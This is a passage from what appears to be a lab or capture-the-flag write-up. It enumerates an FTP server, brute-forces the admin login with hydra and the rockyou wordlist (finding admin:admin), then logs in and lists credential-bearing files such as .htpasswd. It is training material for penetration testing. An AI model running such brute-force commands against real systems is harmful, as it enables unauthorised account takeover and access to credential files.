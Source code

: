 The **accounts** directory looks interesting and is worth exploring.

```
ftp> cd accounts
250 CWD Command successful.
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 4
dr-xr-xr-x   1 root     root          512 Aug 13 04:13 backup
----------   1 root     root          764 Aug 13 04:13 acc[Offsec].uac
----------   1 root     root         1030 Dec 28 01:38 acc[anonymous].uac
----------   1 root     root          926 Aug 13 04:13 acc[admin].uac
226 Closing data connection.
ftp> exit
221 Goodbye.
kali@kali:~$
```

This directory contains a UAC account file for the `admin` user.

## Exploitation

### FTP User Login Brute-Force

Let's brute-force the `admin` account with `hydra` and the **rockyou.txt** wordlist.

```
kali@kali:~$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.68.46
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-27 17:43:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344402 login tries (l:1/p:14344402), ~896526 tries per task
[DATA] attacking ftp://192.168.68.46:21/
[21][ftp] host: 192.168.68.46   login: admin   password: admin
[STATUS] attack finished for 192.168.68.46 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-27 17:43:44
kali@kali:~$
```

This reveals that the password is `admin`.

### Further FTP Enumeration

We can now log in to FTP with the `admin:admin` credentials and enumerate further.

```
kali@kali:~$ ftp 192.168.68.46
Connected to 192.168.68.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.68.46:kali): admin
331 User name received, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
```